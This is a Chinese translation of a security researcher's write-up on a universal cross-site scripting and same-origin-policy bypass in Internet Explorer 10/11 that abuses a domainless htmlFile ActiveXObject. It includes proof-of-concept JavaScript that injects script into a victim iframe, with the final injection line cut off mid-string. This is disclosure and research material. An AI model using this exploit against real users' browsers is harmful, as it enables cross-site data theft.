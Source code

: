 > 原文链接: https://www.anquanke.com//post/id/85790 


# 【技术分享】IE上的UXSS/SOP绕过-再次冒险在无域的世界


                                阅读量   
                                **94081**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：brokenbrowser.com
                                <br>原文地址：[http://www.brokenbrowser.com/uxss-ie-domainless-world/](http://www.brokenbrowser.com/uxss-ie-domainless-world/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](https://p4.ssl.qhimg.com/t0187e8c675340d2aa4.jpg)](https://p4.ssl.qhimg.com/t0187e8c675340d2aa4.jpg)**

****

翻译：[scriptkid](http://bobao.360.cn/member/contribute?uid=2529059652)

稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**前言**

几个月前，我们曾在Edge上玩耍过[无域的about:blank](https://www.brokenbrowser.com/uxss-edge-domainless-world/)页面。基本上，一个强有力的about:blank document可以无限制地访问任何域。该问题在最近[关于CVE-2017-0002的补丁上得到修复](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0002)，所以将不再起作用。同样由[ActiveXObject/htmlFile](https://www.brokenbrowser.com/uxss-ie-htmlfile/)引发的问题也在上周关于[CVE-2017-0154](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0154)的补丁中被[修复](https://technet.microsoft.com/library/security/MS17-006)了。如果你还没有阅读过前面提到两种达到UXSS/SOP绕过方式的文章，请现在就去查阅下，因为我们接下来的内容将假设你已经熟悉这两种方式。我们今天的目标是将我们之前Edge上的bug利用移植到IE上，这将很容易，因为[微软对IE的不认真修复](https://www.brokenbrowser.com/on-patching-security-bugs/)。先看下这些漏洞当前的状态：

[![](https://p4.ssl.qhimg.com/t0187e87da5c914bcc8.png)](https://p4.ssl.qhimg.com/t0187e87da5c914bcc8.png)

**<br>**

**在IE上创建一个无域的about:blank**

在之前的bug上，我们使用data:uri来创建一个无域的blank，我们要怎么在IE上实现相同的结果呢？htmlFile再次给我们提供了帮助，因为补丁让我们无法再设置为任意域，但是我们依旧可以将其设置为blank或者无域。

为了创建一个无域的htmlFile，我们首先需要一个被销毁的document，也就是说，document将不复存在。我们如何在什么都没有的基础上创建东西？这是[Neil deGrasse Tyson](https://twitter.com/neiltyson)提出的另一个问题，我将做出最好的回复！事实上，思路很简单，我们只需要确保一切按照正确的顺序进行即可。

1、保存iframe的对ActiveXObject的引用

2、至少实例化一次htmlFile(这样IE就没有销毁掉它)

3、阻断iframe进程(这样IE就没有机会销毁我们的引用)

4、销毁iframe的document(用document.open)

5、再次实例化htmlFile，现在它是无域的了。

步骤2和3在这里非常重要，少了步骤2将导致我们无法保存一个可用的引用，少了步骤3将是IE可以销毁相应对象。我们之前已经在[这篇文章](https://www.brokenbrowser.com/uxss-ie-htmlfile/)中提到过线程阻断的思路。我们接下来将使用的线程阻断技术是非常直观的弹框。

<br>

**无域的htmlFile**

```
// We will attack the iframe below
// &lt;iframe name="victim_iframe" src="https://www.google.com/recaptcha/..."&gt;&lt;/iframe&gt;
 
// Render an iframe (we will destroy its document later)
document.body.insertAdjacentHTML('beforeEnd','&lt;iframe name="ifr"&gt;&lt;/iframe&gt;');
 
// Save a reference to its ActiveXObject
var ifr_ActiveXObject = ifr.ActiveXObject;
 
// Make sure IE does not invalidate our reference
new ifr_ActiveXObject("htmlFile"); // We don't even need save this instance
 
// Block the iFrame so the ActiveXObject object is never destroyed
ifr.setTimeout('alert("Do not close me until the PoC finishes, please.");');
```

你是否意识到我们使用了setTimeout来执行阻断弹框？这是因为我们还需要继续做其他事，如果我们直接在iframe弹框，这将阻断UI导致后续功能不执行。我们现在的目标是在弹框期间销毁iframe的内容。记住，弹框是用来阻止IE销毁ActiveXObject的。

现在我们将销毁iframe的document并创建无域的htmlFile。如果你对document.open不熟悉，那么在这个PoC中，你可以将其类比为document.write。

```
// Destroy the iframe document
ifr.document.open();
 
// Instantiate a domainless htmlFile
var domainlessDoc = new ifr_ActiveXObject("htmlFile");
```

现在，我们拥有了一个无域的htmlFile，我们所需要做的就仅仅是加载一个带有我们要访问的URL的iframe了。具体的做法在之前的[冒险在无域的世界](https://www.brokenbrowser.com/uxss-edge-domainless-world/)文章中提到过了。实质上，我们通过iframe加载任意的网站，将其修改为about：blank(iframe所属域)。接着我们就可以通过我们的无域htmlFile任意访问该blank(绕过SOP)。

```
// Inject the code in victim's inner iframe
domainlessDoc.parentWindow.setTimeout("victim_iframe[0].location = 'javascript:alert(pare
```

上述适用于IE10和IE11，但只要稍微调整即可适用于IE6到IE11.我们不会在这里做调整，但如果你真的好奇，请[让我知道](https://twitter.com/magicmac2000)。

[![](https://p0.ssl.qhimg.com/t01a146c44529b1e391.png)](https://p0.ssl.qhimg.com/t01a146c44529b1e391.png)

[**[IE10/11上的PoC]******](http://www.cracking.com.ar/demos/ieuxssdomainless)

记住，htmlFile还有许多玩法在等着被发现，我相信这值得你花费一个下雨的午后来研究它。在我看来，修复htmlFile相关的bug的最好方式是完全禁止它在iexplore.exe上的实例化。

```
// If this code returns ACCESS_DENIED attackers will lose an amazing weapon
new ActiveXObject("htmlFile");  // Do not allow this anymore!
```
